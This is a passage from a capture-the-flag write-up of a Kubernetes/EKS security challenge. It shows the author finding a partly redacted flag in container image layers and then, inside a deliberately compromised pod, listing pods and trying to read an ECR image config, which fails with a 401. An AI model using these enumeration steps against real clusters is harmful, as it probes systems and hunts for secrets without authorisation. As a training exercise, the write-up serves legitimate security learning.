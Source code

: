 ```bash
    }
  ],
  "os": "linux",
  "rootfs": {
    "type": "layers",
    "diff_ids": [
      "sha256:3d24ee258efc3bfe4066a1a9fb83febf6dc0b1548dfe896161533668281c9f4f",
      "sha256:a70cef1cb742e242b33cc21f949af6dc7e59b6ea3ce595c61c179c3be0e5d432"
    ]
  }
}
```

Looks like they leaked the secret right there in the image layers:

```
wiz_eks_challenge{nothing_can_be_said_to_*REDACTED*}'
```

So lets submit that and move onto the next one!

# Challenge 3
The hint is:

```
A pod's image holds more than just code. Dive deep into its ECR repository,
inspect the image layers, and uncover the hidden secret.

Remember: You are running inside a compromised EKS pod.
```

This sounds very similar to the last one but with the hints that its on ECR and
that we are in the pod itself it makes me believe we'll have something like IRSA
access to AWS from the pod and need to use that to get to it.

First lets check what pods we are working with:

```bash
root@wiz-eks-challenge:~# kubectl get pod
NAME                      READY   STATUS    RESTARTS   AGE
accounting-pod-876647f8   1/1     Running   0          37h
```

So same as the last challenge, lets get the image and see what access we have:

```bash
root@wiz-eks-challenge:~# kubectl get pod -o json |jq '.items[0].spec.containers[0].image'
"688655246681.dkr.ecr.us-west-1.amazonaws.com/central_repo-aaf4a7c@sha256:7486d05d33ecb1c6e1c796d59f63a336cfa8f54a3cbc5abf162f533508dd8b01"
```

Which as expected, we do not have access to:

```bash
root@wiz-eks-challenge:~# crane config 688655246681.dkr.ecr.us-west-1.amazonaws.com/central_repo-aaf4a7c@sha256:7486d05d33ecb1c6e1c796d59f63a336cfa8f54a3cbc5abf162f533508dd8b01
Error: fetching config: reading image "688655246681.dkr.ecr.us-west-1.amazonaws.com/central_repo-aaf4a7c@sha256:7486d05d33ecb1c6e1c796d59f63a336cfa8f54a3cbc5abf162f533508dd8b01": GET https://688655246681.dkr.ecr.us-west-1.amazonaws.com/v2/central_repo-aaf4a7c/manifests/sha256:7486d05d33ecb1c6e1c796d59f63a336cfa8f54a3cbc5abf162f533508dd8b01: unexpected status code 401 Unauthorized: Not Authorized
```
